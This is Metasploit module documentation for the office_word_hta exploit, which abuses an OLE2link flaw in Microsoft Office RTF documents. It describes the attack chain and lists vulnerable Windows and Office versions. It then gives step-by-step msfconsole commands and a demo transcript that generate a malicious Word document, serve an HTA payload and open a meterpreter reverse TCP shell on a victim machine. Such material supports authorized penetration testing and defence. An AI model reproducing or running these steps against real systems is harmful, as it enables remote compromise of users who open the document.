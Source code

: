 ## Introduction

Microsoft Office is an office suite of applications, servers, and services developed by Microsoft. Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on. They can support OLE data integration and Visual Basic for Application scripting language.

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability. This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit. FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object. When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file. The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process, downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a user prompt generated by the OLE2link.


## Vulnerable Applications


- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)


## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/fileformat/office_word_hta```
3. Do: ```set payload [PAYLOAD NAME]```
3. Do: ```exploit```

## Demo

```
msf > use exploit/windows/fileformat/office_word_hta
msf exploit(office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(office_word_hta) > set lhost 192.168.146.1
lhost => 192.168.146.1
msf exploit(office_word_hta) > set srvhost 192.168.146.1
srvhost => 192.168.146.1
msf exploit(office_word_hta) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.1:4444
[+] msf.doc stored at /Users/wchen/.msf4/local/msf.doc
[*] Using URL: http://192.168.146.1:8080/default.hta
[*] Server started.
```

After you have the malicious doc file and servers ready, copy the doc file onto the victim machine,
and open it with Microsoft Office Word. You should receive a session:

```
[*] Sending stage (957487 bytes) to 192.168.146.145
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2017-04-24 16:00:49 -0500
```
